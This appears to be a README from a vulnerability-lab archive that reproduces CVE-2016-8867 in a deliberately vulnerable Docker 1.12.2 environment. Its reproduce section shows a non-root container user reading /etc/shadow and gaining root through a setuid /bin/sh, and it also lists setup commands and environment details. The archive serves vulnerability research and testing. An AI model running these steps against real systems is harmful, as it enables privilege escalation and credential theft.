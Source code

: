 # docker v1.12.2

* dqd:
  * ssst0n3/docker_archive:cve-2016-8867 -> ssst0n3/docker_archive:cve-2016-8867_v0.1.0
  * ssst0n3/docker_archive:cve-2016-8867_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2016-8867 -> ssst0n3/docker_archive:ctr_cve-2016-8867_v0.1.0
  * ssst0n3/docker_archive:ctr_cve-2016-8867_v0.1.0

## usage

```shell
$ cd vul/cve-2016-8867
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
$ ./ssh
```

### reproduce

```shell
root@localhost:~# docker run -ti -u nobody ubuntu:16.04 bash
nobody@50b080908617:/$ cat /proc/self/status | grep Cap 
CapInh:	00000000a80425fb
CapPrm:	00000000a80425fb
CapEff:	00000000a80425fb
CapBnd:	00000000a80425fb
CapAmb:	00000000a80425fb
nobody@50b080908617:/$ ls -lah /etc/shadow 
-rw-r----- 1 root shadow 652 Aug  4  2021 /etc/shadow
nobody@50b080908617:/$ cat /etc/shadow 
root:*:18843:0:99999:7:::
daemon:*:18843:0:99999:7:::
bin:*:18843:0:99999:7:::
sys:*:18843:0:99999:7:::
sync:*:18843:0:99999:7:::
games:*:18843:0:99999:7:::
man:*:18843:0:99999:7:::
lp:*:18843:0:99999:7:::
mail:*:18843:0:99999:7:::
news:*:18843:0:99999:7:::
uucp:*:18843:0:99999:7:::
proxy:*:18843:0:99999:7:::
www-data:*:18843:0:99999:7:::
backup:*:18843:0:99999:7:::
list:*:18843:0:99999:7:::
irc:*:18843:0:99999:7:::
gnats:*:18843:0:99999:7:::
nobody:*:18843:0:99999:7:::
systemd-timesync:*:18843:0:99999:7:::
systemd-network:*:18843:0:99999:7:::
systemd-resolve:*:18843:0:99999:7:::
systemd-bus-proxy:*:18843:0:99999:7:::
_apt:*:18843:0:99999:7:::
nobody@58f651b73f78:/$ chmod +s /bin/sh
nobody@58f651b73f78:/$ /bin/sh -p 
# id
uid=65534(nobody) gid=65534(nogroup) euid=0(root) egid=0(root) groups=0(root)
# whoami
root
```


### env details

```shell
root@localhost:~# docker --version
Docker version 1.12.2, build bb80604
root@localhost:~# docker-containerd --version
containerd version 0.2.4 commit: 0366d7e9693c930cf18c0f50cc16acec064e96c5
root@localhost:~# docker-runc --version
runc version 1.0.0-rc2
commit: 02f8fa7863dd3f82909a73e2061897828460d52f
spec: 1.0.0-rc2-dev
root@localhost:~# docker info
Containers: 0
 Running: 0
 Paused: 0
 Stopped: 0
Images: 0
Server Version: 1.12.2
Storage Driver: aufs
 Root Dir: /var/lib/docker/aufs
 Backing Filesystem: extfs
 Dirs: 0
 Dirperm1 Supported: true
Logging Driver: json-file
Cgroup Driver: cgroupfs
Plugins:
 Volume: local
 Network: null host bridge overlay
Swarm: inactive
Runtimes: runc
Default Runtime: runc
Security Options: apparmor seccomp
Kernel Version: 4.4.0-210-generic
Operating System: Ubuntu 16.04.7 LTS
OSType: linux
Architecture: x86_64
CPUs: 2
Total Memory: 1.953 GiB
Name: localhost.localdomain
ID: ED3X:JKLF:3XAQ:UM7L:Q54N:KZUU:7F27:GEFO:BWSN:ZUON:JQRU:V4J4
Docker Root Dir: /var/lib/docker
Debug Mode (client): false
Debug Mode (server): false
Registry: https://index.docker.io/v1/
WARNING: No swap limit support
Insecure Registries:
 127.0.0.0/8
```

## build

```shell
make all DIR=vul/cve-2016-8867
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2016-8867_v0.1.0
```
